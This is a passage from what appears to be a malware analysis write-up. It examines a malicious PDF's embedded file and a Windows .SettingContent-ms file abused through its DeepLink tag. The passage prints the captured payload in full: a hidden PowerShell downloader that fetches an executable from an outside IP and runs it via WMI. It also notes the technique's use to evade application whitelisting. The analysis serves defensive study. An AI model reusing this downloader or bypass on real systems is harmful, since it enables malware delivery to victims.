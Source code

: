       <<
        /Length 508
        /Type /EmbeddedFile
        /Filter /FlateDecode
        /Params
          <<
            /ModDate "(D:20180712121742+03'00')"
            /Size 905
          >>
      >>



Again adding `--raw --filter` will give us the raw file.

### Overall PDF structure

Now, we have the structure of the PDF, at least as far as objects that
relate to script that will run on opening the document:

![](/img/inovoice.pdf-structure.png)

### downl.SettingContent-ms

#### .SettingContent-ms

So what is a .SettingContent-ms file? It was introduced in Windows 10 to
allow creating shortcuts to Windows 10 settings pages. However, with the
`<DeepLink>` tag, attackers have figured out that they can run arbitrary
PowerShell inside of one. They have been used to get around Application
Whitelisting, and blocking of malicious attachments.

#### File From this PDF

So let's check out this file:



    <?xml version="1.0" encoding="UTF-8"?>
    <PCSettings>
     <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
      <ApplicationInformation>
       <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>
       <DeepLink>Powershell -nop -windowstyle hidden -c
      $a='http://169.239.129.117/cal'
       $b=\"$env:temp\update12.exe\"
       $webc = [System.Net.WebClient]::new()
       $webc.DownloadFile($a, $b)
       $pclass = [wmiclass]'root\cimv2:Win32_Process'
       $pclass.Create($b, '.', $null)
       </DeepLink>
       </ApplicationInformation>
      <SettingIdentity>
       <PageID></PageID>
       <HostID>{12B1697E-D3A0-4DBC-B568-CCF64A3F934D}</HostID>
      </SettingIdentity>
      <SettingInformation>
       <Description>@shell32.dll,-4161</Description>
       <Keywords>@shell32.dll,-4161</Keywords>
       </SettingInformation>
      </SearchableContent>
     </PCSettings>
